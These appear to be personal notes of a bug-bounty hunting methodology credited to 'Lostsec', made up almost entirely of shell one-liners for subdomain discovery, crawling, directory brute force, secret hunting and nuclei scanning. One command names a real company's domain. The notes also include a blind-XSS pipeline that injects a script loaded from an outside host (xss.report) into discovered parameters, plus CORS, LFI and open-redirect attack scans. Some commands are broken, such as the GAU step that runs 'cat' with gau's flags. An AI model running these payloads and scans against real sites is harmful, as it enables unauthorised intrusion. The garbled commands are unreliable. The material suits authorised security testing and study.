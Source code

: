 1. [[Subfinder]]
	+ `subfinder -dL domains.txt -all -recursive -o subdomains.txt`
	+ [[Command Statement#Subfinder]]
2. [[CRT]] + [[JQ]] + [[Anew]] + [[Curl]]
	 + `%.domain.com`
	 + `curl -s https://crt.sh/\?q\=\example.com\&output\=json | jq -r '.[].name_value' | grep -Po '(\w+\.\w+\.\w+)$' | anew subdomains.txt`
	 + [[Command Statement#CRT]]
3. [[Cat]] + [[Httpx]]
	+ `httpx-toolkit -l subdomains.txt -ports 80,443,8000,8080,8888 -threads 100 > subdomains_alive.txt`
	+ [[Command Statement#Httpx]]
4. [[Katana]]
	+ `katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt`
	+ [[Command Statement#Katana]]
1. [[Naabu]]
	+ `naabu -list subdomains.txt -c 50 -nmap-cli '-sV -sC' -o naabu.txt`
	+ [[Command Statement#Naabu]]
2. [[Dirsearch]] + [[onelistforallshort]]
	+ `python3 /opt/dirsearch/dirsearch.py -l subdomains_alive.txt -x 400,404,429,500,502 -R 5 --random-agent -t 50 -F -o dirsearch.txt -w /opt/wordlist/oneListForall/onelistforallshort.txt`
	+ [[Command Statement#Dirsearch]]
3. [[GAU (GetAllUrls)]]
	+ `cat subdomains_alive.txt --subs --o gau.out`
	+ [[Command Statement#GAU]]
4. [[URO]]
	+ `cat gau.out | uro -o uro.out`
	+ [[Command Statement#URO_1]]
	+ `cat uro.out | grep ".js$" > js_files.out`
	+ `cat js_files.out | uro | anew js_files.out`
	+ [[Command Statement#URO_2]]
5. [[Secretfinder]]
	+ `cat js_files.out | while read url; do python3 /home/user/secretfinder.py -i $url -o cli >> secretfinder.out; done`
	+ [[Command Statement#Secretfinder]]
6. Sort

	```python
	with open('filter_param.txt', 'r') as file:
		lines = file.readlines()
	lines.sort()
	lines = lines[:100000]
	with open('sorted_param_100000.txt', 'w') as file:
		file.writelines(lines)
	```
	+ [[Command Statement#Sort]]

11. [[Nuclei]]
	+ `nuclei -list sorted_param_100000.txt -c 70 -rl 200 -fhr -lfa -t Custom-Nuclei-Templates -o nuclei_example.txt -es info`
	+ [[Command Statement#Nuclei]]
12. [[Shodan]]
	+ ssl:'example.com' 200

### Bug Hunting methodology part 2 by Lostsec :)

1. [[Subfinder]]
	+ `subfinder -d viator.com -all -recursive > subdomain.txt`

2. [[Cat]] + [[Httpx]]
	+ `cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt`
3. [[Katana]]
	+ `katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt`
4. [[Cat]] + [[Nuclei]]
	+ `cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"`
	+  `cat allurls.txt | grep -E "\.js$" >> js.txt`
	+ `cat js.txt | nuclei -t /home/bug/.local/nuclei-templates/http/exposures/`
5.  [[Echo]] + [[Katana]] + [[Grep]] + [[Nuclei]]
	+ `echo example.com | katana -ps | grep -E "\.js$" | nuclei -t /home/bug/.local/nuclei-templates/http/exposures/ -c 30`
6. [[Dirsearch]]
	+ `dirsearch -u http://example.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json`
7. [[Subfinder]] + [[Httpx]] + [[Katana]] + [[Bxss]]
	+ `subfinder -d example.com | httpx-toolkit -silent |  katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/rainer></script> -parameters`

8. [[Subzy]] 
	+ `subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl`
9. [[Corsy]]
	+ `python3 corsy.py -i /home/coffinxp/vaitor/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"`
10. [[Nuclei]] 
	+ `nuclei -list subdomains_alive.txt -t /home/coffinxp/Priv8-Nuclei/cors`
	+ `nuclei -list subdomains_alive.txt -tags cve,osint,tech`
11. [[Cat]]
	+ `cat allurls.txt | gf lfi | nuclei -tags lfi`
	+ `cat allurls.txt | gf redirect | openredirex -p /home/coffinxp/openRedirect`
#### siehe auch:
- [[LFI like Lostsec]]
- [[CORS Vulnerability like Lostsec]]
- [[Open Redirect like Lostsec]]
- [[Microsoft IIS Server Vulnerability like Lostsec]]












